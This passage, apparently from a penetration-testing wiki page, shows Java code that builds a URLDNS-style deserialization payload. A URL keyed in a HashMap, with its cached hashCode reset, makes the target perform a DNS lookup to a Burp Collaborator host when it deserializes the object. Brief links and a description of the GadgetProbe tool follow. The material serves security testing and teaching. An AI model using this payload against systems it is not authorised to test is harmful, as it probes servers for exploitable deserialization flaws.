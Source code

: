 ```java
        in.close();
    }
	
	public static void main(final String[] args) throws Exception {
		String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
		HashMap ht = new HashMap(); // HashMap that will contain the URL
		URLStreamHandler handler = new SilentURLStreamHandler();
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    // During the put above, the URL's hashCode is calculated and cached.
    // This resets that so the next time hashCode is called a DNS lookup will be triggered.
    final Field field = u.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
		field.set(u, -1);
		
		//Test the payloads
		GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
	}
}


class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}
```

### More information

* [https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
* In the original idea thee commons collections payload was changed to perform a DNS query, this was less reliable that the proposed method, but this is the post: [https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

## GadgetProbe

You can download [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) from the Burp Suite App Store (Extender).

**GadgetProbe** will try to figure out if some **Java classes exist** on the Java class of the server so you can know **if** it's **vulnerable** to some known exploit.
